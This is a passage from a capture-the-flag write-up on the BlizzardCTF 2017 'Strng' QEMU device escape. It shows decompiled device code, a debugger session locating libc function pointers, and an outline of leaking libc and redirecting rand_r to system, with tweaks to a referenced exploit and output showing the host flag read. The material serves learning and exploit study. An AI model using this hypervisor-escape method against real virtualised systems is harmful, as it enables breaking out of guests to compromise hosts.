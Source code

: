 ```c
    &strng_pmio_ops,
    pdev,
    "strng-pmio",
    8uLL);
  if ( __readfsqword(0x28u) == v2 )
    pci_register_bar(pdev, 1, 1u, (MemoryRegion_0 *)&pdev[1].io_regions[0].size);
}
```
With the analysis of the functions, we know that there are 3 function pointers in the structure. So let's check it:
```
gef➤  x/2i 0x00007ffff65268d0
   0x7ffff65268d0 <__srandom>:	sub    rsp,0x8
   0x7ffff65268d4 <__srandom+4>:	mov    edx,edi
gef➤  x/2i 0x00007ffff6526f60
   0x7ffff6526f60 <rand>:	sub    rsp,0x8
   0x7ffff6526f64 <rand+4>:	call   0x7ffff6526ac0 <__random>
gef➤  x/2i 0x00007ffff6526f70
   0x7ffff6526f70 <rand_r>:	imul   edx,DWORD PTR [rdi],0x41c64e6d
   0x7ffff6526f76 <rand_r+6>:	add    edx,0x3039
```
So they are srandom, rand and rand_r, they are all located in libc. Just leak one of them. Only rand_r takes one argument and it's a pointer. We put our command on the emulated device memory and then trigger the rand_r() via strng_mmio_write or strng_pmio_write.

There is a full exploit source code in the reference, and a few points need to be changed.
1. Change the last argument of mmap as 0, not MAP_SIZE & ~MAP_MASK.
2. You can't read the /root/flag unless the qemu runs as the root privilege or it's set the correct permission.
```
host:
root@ubuntu16:~# cat flag
flag{You_Get_it}

guest:
root@ubuntu:/home/ubuntu# ./exp
cat: -: Resource temporarily unavailable
libc_base: 7f0843192000
_system  : 7f08431d7390
flag{You_Get_it}
```

## References
[BlizzardCTF 2017 - Strng](http://uaf.io/exploitation/2018/05/17/BlizzardCTF-2017-Strng.html)